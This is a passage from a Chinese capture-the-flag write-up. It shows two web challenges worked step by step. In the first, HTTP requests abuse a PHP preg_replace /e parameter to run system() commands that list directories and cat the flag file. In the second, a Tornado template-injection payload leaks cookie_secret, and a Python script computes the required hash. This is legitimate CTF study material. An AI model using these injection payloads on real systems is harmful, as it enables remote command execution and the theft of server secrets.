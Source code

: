 ```

获取关键目录s3chahahaDir

3#
继续找flag：
GET /index.php?pat=/test/e&rep=system("cd+s3chahahaDir+%26%26+ls")&sub=test HTTP/1.1
Host: 61.147.171.105:57182
x-forwarded-for:127.0.0.1

发现flag文件夹

4#
继续找
GET /index.php?pat=/test/e&rep=system("cd+/s3chahahaDir/flag+%26%26+ls")&sub=test HTTP/1.1
x-forwarded-for:127.0.0.1

发现flag.php

5#
GET /index.php?pat=/test/e&rep=system("cat+s3chahahaDir/flag/flag.php")&sub=test HTTP/1.1
Host: 61.147.171.105:57182
x-forwarded-for:127.0.0.1

成功cat flag
```

#### Tornado 框架漏洞

根据提示（/hints.txt md5(cookie\_secret+md5(filename))，flag in /fllllllllllllag）需要获取cookie\_secret计算hash值，Tornado 框架漏洞可以使用\{{handler.settings\}}获取服务器的配置文件信息

poc:

```
http://61.147.171.105:54511/error?msg={{handler.settings}}
输出：
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '1a4fa65e-5894-4900-af02-3da0be0d6f79'}
```

编写脚本计算hash

````
```python
import hashlib
def md5(message):
    md5 = hashlib.md5()
    md5.update(message.encode('utf-8'))
    return md5.hexdigest()

def main(salt, name):
    print(md5(salt + md5(name)))


if __name__ == "__main__":
    cookie_secret = "1a4fa65e-5894-4900-af02-3da0be0d6f79"
    filename = "/fllllllllllllag"
    main(cookie_secret, filename)

```

得到hash：
27eeb042366cf2b0037409159e41ec50
````
